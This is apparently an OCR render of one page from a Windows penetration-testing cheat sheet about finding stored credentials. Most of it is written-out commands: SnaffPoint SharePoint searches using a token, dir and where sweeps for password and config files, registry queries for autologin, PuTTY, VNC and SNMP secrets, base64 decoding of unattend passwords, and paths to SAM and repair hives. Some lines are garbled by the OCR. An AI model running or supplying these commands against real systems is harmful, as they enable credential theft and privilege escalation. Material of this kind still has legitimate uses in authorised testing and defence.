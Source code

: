 **Display the content of these files with dir /s \*sysprep.inf \*sysprep.xml \*unattended.xml**

```
# Second, search on Sharepoint
## Method 1: using search strings in ./presets dir
.\SnaffPoint.exe -u "https://tinyurl.com/2akdbt52" -t $token
## Method 2: using search string in command line
### -l uses FQL search, see: https://tinyurl.com/2bjwhhsu
.\SnaffPoint.exe -u "https://tinyurl.com/2akdbt52" -t $token -l -q "filename:.config"
```

```
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
```

```
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K
```

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2 >nul | findstr
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

**\*unattend.xml \*unattend.txt 2>nul.**

**Example content**

**Unattend credentials are stored in base64 and can be decoded manually with base64.**

```
$ echo "U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo=" | base64 -d
SecretSecurePassword1234*
```

**The Metasploit module post/windows/gather/enum\_unattend looks for these files.**

#### IIS Web config

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```

#### Other files

```
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
```
